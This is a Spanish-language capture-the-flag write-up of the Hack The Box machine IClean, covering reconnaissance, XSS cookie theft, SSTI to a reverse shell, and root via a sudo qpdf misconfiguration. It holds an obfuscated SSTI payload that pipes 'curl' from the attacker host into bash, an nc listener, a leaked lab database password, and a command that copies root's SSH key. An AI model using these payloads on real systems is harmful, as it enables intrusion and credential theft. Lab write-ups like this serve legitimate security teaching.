









# 🧰 Hack The Box — IClean

- **IP:** 10.10.11.12
- **Nivel:** Medio  
- **Sistema operativo:** Linux  
- **Categoría:** Web, Escalada de Privilegios  
- **Flag user:** ✅  
- **Flag root:** ✅  

---

## 🧾 Información general

IClean es una máquina Linux de dificultad media en Hack The Box, que simula un entorno empresarial moderno con una aplicación web basada en Python y el framework Werkzeug. El reto combina vulnerabilidades web (XSS, SSTI) con escalada de privilegios mediante abuso de sudo y exposición de archivos sensibles.

---

## 🔍 Fase 1: Reconocimiento

### Configurar dominio local

Se añadió el dominio `capiclean.htb` a `/etc/hosts` apuntando a la IP 10.10.11.12:

```bash
sudo nano /etc/hosts
```

### WhatWeb

```bash
whatweb http://capiclean.htb
```



#### Resultados:
- Python 3.10.12, Werkzeug 2.3.7
- Apache 2.4.52
- Frontend: Bootstrap y jQuery

---

## 🚪 Fase 2: Escaneo y enumeración

### Escaneo completo con Nmap

```bash
nmap -sS -sV -p- --min-rate=5000 -n -Pn 10.10.11.12
```

#### Parámetros:
- `-sS`: Escaneo SYN (rápido y sigiloso).
- `-sV`: Detecta versiones de servicios.
- `-p-`: Escanea todos los puertos (1 al 65535).
- `--min-rate=5000`: Aumenta la velocidad del escaneo.
- `-n`: No resuelve DNS.
- `-Pn`: Omite el ping previo al escaneo.


  
#### Resultado:
- Puerto **22/tcp** abierto → OpenSSH 8.9p1
- Puerto **80/tcp** abierto → Apache 2.4.52

### Fuerza bruta de directorios con Dirsearch

```bash
python3 dirsearch.py -u http://capiclean.htb -e php,html,txt -x 403,404
```



#### Parámetros:
- `-u`: URL objetivo.
- `-e`: Extensiones a buscar.
- `-x`: Códigos de estado HTTP a excluir de los resultados.

### Escaneo más agresivo con Gobuster

```bash
gobuster dir -u http://capiclean.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 200
```

#### Parámetros:
- `dir`: Modo directorios.
- `-u`: URL objetivo.
- `-w`: Wordlist utilizada.
- `-x`: Extensiones a añadir a las rutas.
- `-t`: Número de hilos para acelerar el proceso.


#### Resultado:
- Se descubrieron rutas interesantes: `/quote`, `/login`, `/dashboard`, `/choose`, y `/team`.

---

## 💥 Fase 3: Explotación

### Vulnerabilidad XSS en `/quote`

En el parámetro `service`, se inyectó este payload para capturar cookies:

```bash

```

En la máquina atacante se lanzó un servidor HTTP para capturar la cookie:

```bash
python3 -m http.server 8000
```



Luego, la cookie se copió manualmente al navegador en almacenamiento → cookies para acceder al panel `/dashboard`.

### Vulnerabilidad SSTI en `/dashboard` (parámetro `qr_link`)

Se confirmó con un payload simple:

```bash
qr_link={{7*7}} → Resultado: 49
```

Se usó un payload SSTI avanzado para ejecutar una reverse shell:

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f \x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl 10.10.14.12:8000 | bash')|attr('read')()}}
```

En la máquina atacante:

```bash
python3 -m http.server 8000
nc -lvnp 4444
```

#### Resultado:
- Shell obtenida como usuario `www-data`.


---

## ⬆️ Fase 4: Escalada de privilegios

### Inspección de archivo sensible `/app/app.py`

Se encontraron credenciales de MySQL.

### Acceso a MySQL

```bash
mysql -uiclean -ppxCsmnGLckUb -Dcapiclean -e "SHOW TABLES;"
mysql -uiclean -ppxCsmnGLckUb -Dcapiclean -e "SELECT * FROM users;"
```



#### Resultado:
- Las contraseñas estaban en hashes.

### Cracking de hashes

Se usó https://hashes.com/ para obtener la contraseña de usuario `consuela`:

#### Resultado:
- La contraseña de `consuela` es: `simple and clean`.

### Login como usuario consuela

```bash
su consuela
```

### Shell interactiva estable

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
fg
```

### Verificación de permisos

```bash
sudo -l
```



#### Resultado:
- El usuario `consuela` puede ejecutar `qpdf` como cualquier usuario.

### Exfiltración clave SSH root con qpdf

```bash
sudo qpdf --empty --add-attachment /root/.ssh/id_rsa -- /tmp/privesc
mv /tmp/privesc /tmp/privesc.pdf
```

#### Parámetros:
- `--empty`: Crea un PDF vacío.
- `--add-attachment`: Añade un archivo al PDF.
- `/root/.ssh/id_rsa`: Archivo objetivo.
- `/tmp/privesc`: PDF de salida.

### Extracción y uso de clave privada 

Se extrajo la clave del PDF, se guardó en un archivo `id_rsa` y se estableció conexión SSH como root:

```bash
ssh -i id_rsa root@localhost
```



#### Resultado:
- Acceso como `root` obtenido.



---

## 🏁 Fase 5: Post-explotación

### Obtención de flags

#### Flag de usuario:

```bash
cat /home/consuela/user.txt
```


#### Flag de root:

```bash
cat /root/root.txt
```



---

## 📋 Resumen final

Se aprovechó una vulnerabilidad XSS para capturar la sesión administrativa y una SSTI para obtener shell. Con acceso limitado, se extrajeron credenciales de la base de datos, se hizo cracking de contraseñas y se escaló privilegios abusando de un comando `sudo` mal configurado (`qpdf`), consiguiendo acceso `root`.

Este reto resalta la importancia de una correcta validación de entradas web y de restringir los permisos en sudo para evitar la exfiltración de credenciales críticas.
